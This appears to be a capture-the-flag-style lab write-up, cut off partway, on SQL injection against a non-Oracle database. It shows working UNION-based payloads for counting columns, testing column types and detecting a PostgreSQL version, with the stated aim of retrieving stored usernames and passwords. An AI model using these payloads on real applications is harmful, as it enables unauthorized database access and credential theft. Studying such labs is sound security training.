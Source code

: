 # SQL injection attack, listing the database contents on non-Oracle databases
- SQL injection vulnerability in the product category filter
- results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables\
- application has a login function, and the database contains a table that holds usernames and passwords
- To solve the lab, log in as the administrator user.
# Goal
- determine the name of this table and the columns it contains
- retrieve the contents of the table to obtain the username and password of all users
# Solving The Lab
- First Find Number of Columns with
```
' ORDER by 1--
```
- url encode and change the value untill we got and 3 internal server error so columns are 2
- now to the columns type we try string and we got 200 response
```
' UNION SELECT 'a','a'--
```
- now to db version we know from description that its not oracle so we have three options left
```
Microsoft-->	SELECT @@version
PostgreSQL-->	SELECT version()
MySQL-->	SELECT @@version
```
- we tried all but oonly postgresql gave 200 response 
```
' UNION  SELECT version(),'a'--
```
- 
